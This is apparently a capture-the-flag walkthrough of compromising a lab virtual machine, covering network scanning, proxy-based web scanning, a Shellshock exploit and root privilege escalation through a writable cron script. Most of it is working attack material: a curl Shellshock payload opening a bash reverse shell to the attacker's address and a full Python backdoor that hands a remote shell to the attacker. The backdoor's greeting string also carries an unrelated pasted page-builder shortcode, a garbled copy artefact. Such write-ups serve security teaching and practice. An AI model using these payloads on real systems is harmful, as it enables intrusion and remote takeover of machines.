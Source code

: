 # Finding the Box
```
nmap -sn 192.168.114.1-254
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-16 20:08 AEDT
Nmap scan report for 192.168.114.2
Host is up (0.00013s latency).
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.133
Host is up (-0.088s latency).
MAC Address: 00:0C:29:69:FD:DA (VMware)
Nmap scan report for 192.168.114.254
Host is up (-0.10s latency).
MAC Address: 00:50:56:E0:B0:AD (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (4 hosts up) scanned in 4.68 seconds
```
# Port Enumeration
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-16 20:09 AEDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 69.20% done; ETC: 20:10 (0:00:05 remaining)
Nmap scan report for 192.168.114.133
Host is up (0.00086s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 00:0C:29:69:FD:DA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.87 seconds
```
# HTTP Enumeration
```
3128/tcp open   http-proxy Squid http proxy 3.1.19
```
From this we can see that a proxy is open
Trying to connect to http://192.168.114.133 we can see that it is stuck on connecting, so we can assume it is behind a proxy.

We configure the proxy using firefox
Settings>Advanced>Connection>Manual Proxy Connection

Using proxy ip 192.168.114.133 on port 3128
We try to connect again and we made connected through.

Using NIKTO making sure to use it through a proxy
```
nikto -h 192.168.114.133 -useproxy 192.168.114.133:3128
```
```
OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```
Shellshock vulnerability is found, since it is a linux kernel it is incredibly easy to just pass through a reverse shell.


# Exploiting Vulnerability - Shellshock

Basic shellshock.
```
curl -H "User-Agent: () { :; } ; " website.com
```
Using curl and modifying this to include a reverse shell. Making sure to connect through the proxy
```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.114.131/1234 0>&1" 192.168.114.133/cgi-bin/status --proxy 192.168.114.133:3128
```

# Privilege Escalation

Running a linux privilege checker script.

```
Scheduled cron jobs
    -rw-r--r-- 1 root root  722 Jun 20  2012 /etc/crontab
    /etc/cron.d:
    total 20
    drwxr-xr-x  2 root root 4096 Dec  5  2015 .
    drwxr-xr-x 90 root root 4096 Mar 16 14:35 ..
    -rw-r--r--  1 root root  102 Jun 20  2012 .placeholder
    -rw-r--r--  1 root root   52 Dec  5  2015 automate
    -rw-r--r--  1 root root  544 Jul  2  2015 php5
```

We find automate which gives us a clue.
```
cat automate
* * * * * root /usr/bin/python /var/www/connect.py
```
```
cat /var/www/connect.py
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```
According to this, it connects to things frequently, fortunately we have write access
```
ls -l /var/www/connect.py
-rwxrwxrwx 1 root root 109 Dec  5  2015 /var/www/connect.py
```
As cronjobs are usually run as root ,We can completely replace the file with an exploit named connect.py and hopefully create a shell with root.


# Exploit 

Replace the file with an exploit of our own 
From https://www.trustedsec.com/2011/06/creating-a-13-line-backdoor-worry-free-of-av/
```
#!/usr/bin/python
# imports here
import socket,subprocess
HOST = '192.168.114.131'    # The remote host
PORT = 1234            # The same port as used by the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# connect to attacker machine
s.connect((HOST, PORT))
# send we are connected
s.send('[fusion_builder_container hundred_percent="yes" overflow="visible"][fusion_builder_row][fusion_builder_column type="1_1" background_position="left top" background_color="" border_size="" border_color="" border_style="solid" spacing="yes" background_image="" background_repeat="no-repeat" padding="" margin_top="0px" margin_bottom="0px" class="" id="" animation_type="" animation_speed="0.3" animation_direction="left" hide_on_mobile="no" center_content="no" min_height="none"][*] Connection Established!')
# start loop
while 1:
     # recieve shell command
     data = s.recv(1024)
     # if its quit, then break out and close socket
     if data == "quit": break
     # do shell command
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     # read output
     stdout_value = proc.stdout.read() + proc.stderr.read()
     # send output to attacker
     s.send(stdout_value)
# close socket
s.close()

```
Wait and Root
```
id
uid=0(root) gid=0(root) groups=0(root)
```

